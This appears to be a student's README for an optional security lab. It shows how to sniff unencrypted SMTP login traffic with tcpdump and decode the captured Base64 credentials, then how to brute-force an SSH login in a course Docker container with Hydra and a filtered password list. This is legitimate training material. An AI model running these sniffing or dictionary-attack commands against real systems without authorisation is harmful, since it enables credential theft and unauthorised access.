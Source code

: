 # Attack is the best defense
## DevOps ## Scripting ## Hacking

### Concepts
For this project, we expect you to look at these concepts:
* [Network basics](https://intranet.alxswe.com/concepts/33)
* [Docker](https://intranet.alxswe.com/concepts/65)

## Background Context
This project is NOT mandatory at all. It is 100% optional. Doing any part of this project will add a project grade of over 100% to your average. Your score won’t get hurt if you don’t do it, but if your current average is greater than your score on this project, your average might go down. Have fun!
## Resources
### Read or watch:
* [Network sniffing](https://intranet.alxswe.com/rltoken/eF4956aQFYnhS_i6IF9R-g)
* [ARP spoofing](https://intranet.alxswe.com/rltoken/RK-4WtV0YCSETDSG9lr1hw)
* [Connect to SendGrid’s SMTP relay using telnet](https://intranet.alxswe.com/rltoken/twuD5E9_-V2z1zfW5nXyyg)
* [What is Docker and why is it popular?](https://intranet.alxswe.com/rltoken/56VrRmkBHFq2OKLM_FQA6w])
* [Dictionary attack](https://intranet.alxswe.com/rltoken/dbAwbf71VVSCTOfeR1NRmg)
### man or help:
* tcpdump
* hydra
* telnet
* docker

A repo for the optional project Attack is the best defense
## Task 0: ARP Spoofing and Sniffing Unencrypted Traffic

### Prerequisites
Before proceeding, ensure you have the required tools installed:

1. **Download the Program:**
   - Download the provided program:
     ```bash
     curl -O https://s3.amazonaws.com/intranet-projects-files/holbertonschool-sysadmin_devops/264/user_authenticating_into_server
     ```

2. **Install `tcpdump`:**
   - Update your package list:
     ```bash
     sudo apt-get update
     ```
   - Install `tcpdump`:
     ```bash
     sudo apt-get install tcpdump
     ```

3. **Install `tshark`:**
   - Install `tshark` for more human-readable output:
     ```bash
     sudo apt install tshark
     ```

### Intercepting Data
Now you're ready to intercept data between the `user_authenticating_into_server` program and the SendGrid server.

1. **Run `tcpdump`:**
   - Execute the following command to capture network traffic:
     ```bash
     sudo tcpdump -i eth0 -n -s 0 -A 'host smtp.sendgrid.net and port 587' -w sendgrid_traffic.pcap
     ```
     - `-i eth0`: Replace `eth0` with the network interface your program uses.
     - `-n`: Display numeric IP addresses and port numbers instead of resolving hostnames and services.
     - `-s 0`: Capture the entire packet.
     - `-A`: Display packet data (payload) in ASCII format.
     - `'host smtp.sendgrid.net and port 587'`: Capture traffic to and from SendGrid's SMTP server on port 587.
     - `-w sendgrid_traffic.pcap`: Save captured packets to a file for later analysis.

2. **Run Your Program:**
   - In a second Ubuntu terminal, give permission and then run your program:
     ```bash
     sudo chmod +x user_authenticating_into_server
     sudo ./user_authenticating_into_server
     ```

3. **Capture and Analyze:**
   - Wait for your program to execute, then interrupt the first terminal using `CTRL-C`.
   - You'll have a `sendgrid_traffic.pcap` file that you can analyze.

### Analyzing the Capture
You can analyze the capture file using either `tcpdump` or `tshark`:

- Using `tcpdump`:
   ```bash
   tcpdump -r sendgrid_traffic.pcap
   ```
- Using `tshark` for more human-readable output:
  ```bash
  15 3.999733 172.31.145.221 → 54.228.39.88 SMTP 80 C: User: bXlsb2dpbg==
  16 4.069955 54.228.39.88 → 172.31.145.221 TCP 66 587 → 57152 [ACK] Seq=196 Ack=63 Win=32256 Len=0 TSval=2327286244 TSecr=1468075274
  17 4.069956 54.228.39.88 → 172.31.145.221 SMTP 84 S: 334 UGFzc3dvcmQ6
  18 4.070087 172.31.145.221 → 54.228.39.88 TCP 66 57152 → 587 [ACK] Seq=63 Ack=214 Win=64128 Len=0 TSval=1468075345 TSecr=2327286244
  19 6.001628 172.31.145.221 → 54.228.39.88 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
  ```
  
  This part of the output shows the authentication process with the information:
   
    User: bXlsb2dpbg==
  
    Pass: bXlwYXNzd29yZDk4OTgh

  Credentials are Base64 encoded, so the decoded information would be:
  
    User: mylogin
  
    Pass: mypassword9898!


## Task 1: Dictionary Attack

Performing a dictionary attack using Hydra to guess a password for an SSH account.

## Prerequisites

- Docker: [Install Docker](https://docs.docker.com/get-docker/)

## Setup

1. Pull and run the Docker image `sylvainkalache/264-1` with the following command:

    ```bash
    docker run -p 2222:22 -d -ti sylvainkalache/264-1
    ```

2. Start the Docker container by replacing `<container_id>` with the ID of the newly created `sylvainkalache/264-1` container:

    ```bash
    docker start -ai <container_id>
    ```

3. Install Hydra:

    ```bash
    sudo apt-get install hydra
    ```

4. Download a potential password list in `.txt` format. You can find one in the [SecLists library](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt).

5. To save time and resources, isolate passwords with 11 characters from your password list:

    ```bash
    grep -oE '\b\w{11}\b' all_passwords.txt > 11_char_passwords.txt
    ```

## Running the Attack

Run Hydra with the specified requirements:

```bash
hydra -l sylvain -P 11_char_passwords.txt ssh://127.0.0.1
```

   - `-l sylvain`: Specifies the target username as "sylvain." This is the username for which you are attempting to guess the password.

   - `-P 11_char_passwords.txt`: Specifies the password list or wordlist you are using for the attack. In this case, the wordlist contains passwords with 11 characters. Hydra will try each password from this list in an attempt to gain access to the SSH service.

   - `ssh://127.0.0.1`: Specifies the target SSH service running on the local host (127.0.0.1). Hydra will attempt to log in to this SSH service using the provided username and the passwords from the wordlist.

Please practice patience as hydra tries every password in the file until it finds the right one. Once successful, it will return an output similar to:

```bash
[22][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```

### More Reference material
[Attack is the best defense: Password cracking with Network Sniffing and Dictionary Attack](https://medium.com/@polalekan/attack-is-the-best-defense-password-cracking-with-network-sniffing-and-dictionary-attack-72fbbf0aa272)
